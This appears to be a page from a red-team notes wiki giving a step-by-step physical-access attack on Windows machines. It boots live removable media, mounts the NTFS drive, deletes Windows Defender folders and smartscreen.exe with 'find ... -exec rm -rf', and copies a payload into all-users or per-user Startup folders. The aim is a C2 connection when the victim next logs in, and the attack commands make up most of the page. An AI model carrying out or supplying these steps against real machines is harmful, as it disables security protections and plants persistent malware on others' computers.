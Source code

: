 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - physical-pentesting
  - defense-evasion
  - maintaining-access
  - persistence
  - windows
  - linux
credits:
  - tokyoneon
---
```

# Live Removable Media

## 01 - Access The Boot Manager

When the system is booting it may prompt a specific keystroke to press by accessing the boot manager. If not depending on the vendor's motherboard, do a quick search of which keystroke to access the boot manager.

## 02 - Mount NTFS Drive

```
# fdisk -l

# mount -t ntfs /dev/sdX[n] /mnt/
```

## 03 - Disable Security Defenses (Optional)

### 3.1 - Windows Security

```
# find /mnt/ -type d -iname *Windows\ Defender*
```

Delete security endpoints.

```
# find /mnt/ -type d -iname *Windows\ Defender* -exec rm -rf {} \;
```

### 3.2 - Smartscreen

Delete `smartscreen.exe`.

```
# find /mnt/ -iname smartscreen.exe -exec rm -rf {} \;
```

### 3.3 - Third Party Endpoints

Refer to the **Wiki Backlinks** to bypass third party endpoints.

## 04 - Copy Payload to Startup

### 4.1 - All Users

```
# cp payload.exe "/mnt/<windows_volume_name>/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
```

### 4.2 - Specific User

Enumerate the available users.

```
# ls /mnt
```

Then copy the payload to startup directory.

```
# cp payload.exe "/mnt/<windows_volume_name>/Users/<username>/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
```

## 05 - Unmount the NTFS Drive

After you've dropped the payload in the target's machine. Wait for the target to login to their machine to receive an established connection to your C2.

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Active Directory/0xA - Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xA - Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Microsoft/Endpoints/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Third Party Endpoints/Living off the Land]]

### Null Byte

- [Null Byte: Hacking Windows 10 - How to Break into Somebody's Computer Without a Password (Exploiting the System)](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-exploiting-system-0183743)